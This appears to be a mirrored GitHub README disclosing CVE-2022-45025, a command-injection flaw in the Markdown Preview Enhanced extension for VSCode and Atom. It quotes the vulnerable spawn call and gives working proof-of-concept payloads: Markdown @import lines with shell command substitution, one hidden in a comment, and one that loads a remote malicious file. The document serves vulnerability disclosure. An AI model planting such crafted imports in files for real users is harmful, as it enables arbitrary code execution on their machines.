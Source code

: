 # CVE-2022-45025

[PoC] Command injection via PDF import in Markdown Preview Enhanced (VSCode, Atom)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/yuriisanin](https://github.com/yuriisanin) |
| Url      | [https://github.com/yuriisanin/CVE-2022-45025](https://github.com/yuriisanin/CVE-2022-45025)                                               |
| Stars    | 87                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* command-injection* cve* exploit* markdown* rce

</details>

## Readme

# CVE-2022-45025
Command injection via PDF import in Markdown Preview Enhanced ([VSCode](https://marketplace.visualstudio.com/items?itemName=shd101wyy.markdown-preview-enhanced), [Atom](https://atom.io/packages/markdown-preview-enhanced))

## Description

The [Mume](https://github.com/shd101wyy/mume) markdown tool library was vulnerable to command injection due to use of `spawn` command with `{shell: true}` option. This could allow an attacker to achieve arbitary code execution by tricking victim into opening specially crafted Markdown file using VSCode or Atom. The library powers Markdown Preview Enhanced plugin for both [VSCode](https://github.com/shd101wyy/vscode-markdown-preview-enhanced) and [Atom](https://github.com/shd101wyy/markdown-preview-enhanced).


Vulnerable [code snippet](https://github.com/shd101wyy/mume/blob/7135d7606a6a57de6e2372c26a2f16bb98ecf2b2/src/pdf.ts):
```js
const task = spawn(
      "pdf2svg",
      [
        `"${pdfFilePath}"`,
        `"${path.resolve(svgDirectoryPath, svgFilePrefix + "%d.svg")}"`,
        "all",
      ],
      { shell: true },
    )
```

## Proof of Concept

The following Markdown document allows an attacker to execute arbitary command:

```md
@import "$(open -a Calculator > /dev/null | exit 0)hello.pdf"

The following comment will be recognised by MPE as valid "@import" command:

<!-- @import "$(open -a Calculator > /dev/null | exit 0)hello.pdf" -->
```

Alternatively, the payload could be executed from external source:
```md
<!-- @import "https://raw.githubusercontent.com/yuriisanin/CVE-2022-45025/main/examples/malicious.md" -->
```

**DEMO for both [VSCode](https://www.youtube.com/watch?v=bnK5DPdb5JU) and [Atom](https://www.youtube.com/watch?v=WxMVwkYrDzI) on YouTube.**

![vscode-rce-poc-gif](https://github.com/yuriisanin/CVE-2022-45025/blob/c60ece758e623176bc21461ef93604efa15d4e63/assets/mde-rce-short.gif)


## Support

You can follow me on [Twitter](https://twitter.com/SaninYurii), [GitHub](https://github.com/yuriisanin) or [YouTube](https://www.youtube.com/channel/UCLN2EvGxtnucEdrI21PmJZg).



## Get the content

```
git clone https://github.com/yuriisanin/CVE-2022-45025
cd CVE-2022-45025
```

{% embed url="https://github.com/yuriisanin/CVE-2022-45025" %}

<figure><img src="https://avatars.githubusercontent.com/u/11749007?v=4" alt=""><figcaption><p>yuriisanin</p></figcaption></figure>
